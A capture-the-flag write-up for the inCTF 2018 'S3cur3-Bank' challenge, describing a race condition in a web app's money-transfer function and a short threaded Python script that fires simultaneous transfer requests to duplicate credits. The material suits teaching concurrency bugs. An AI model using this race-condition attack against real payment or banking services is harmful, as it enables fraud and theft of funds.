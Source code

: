 # S3cur3-Bank

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/9.png)

44/306 = 14% of the teams solved this challenge.

## Reconnaissance

First page is a login/registration page. Let's create a new user and login.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/10.png)

Okay, we can buy the flag for 5000 credits, but combined we only have 2000 credits. My first thought on this is that the application does not perform exclusive locks when moving money.

Psuedo code for the send function would look like this:

```python
send_money(to, amount):
  account_balance = get_account_balance(self)
  if account_balance - amount > 0
      # Enough credits to send
      send_money_to_account(to, amount_send)
      account_balance -=amount_send;
```

The insecure part of this is that there are no exclusive locks. What if we send two requests at basically the same time by using threads.

```python
send_money(A, 500) # account_balance before: 1000
send_money(A, 500) # account_balance before: 1000
```

These requests will read the account_balance which will return 1000.
Then it will send 500 credits to account A. Then subtract 500 from the original account_balance (1000-500=500).

`Account balance after: 500`

Notice something? We've send 1000 credits, but we still have 500 in our account. We've duped 500 credits. Let's apply this theory to practice.

## Exploiting the bank

```python
import requests
import threading

url = "http://18.188.42.158/bank.php?id=a839eea9f6b192ad586ad41e8bd4d4db"


def make_money():
	data = {"transfer": 500, "account": "Transfer to A"}
	response = requests.post(url,data=data)
	print response.text

try:

	t1 = threading.Thread(target=make_money, args=[])
	t2 = threading.Thread(target=make_money, args=[])
	t1.start()
	t2.start()

except:
   print "Error: unable to start thread"

```

After running the script back a few times transfering money between A and B. We can buy the flag

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/11.png)

And now we can buy the flag.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/12.png)
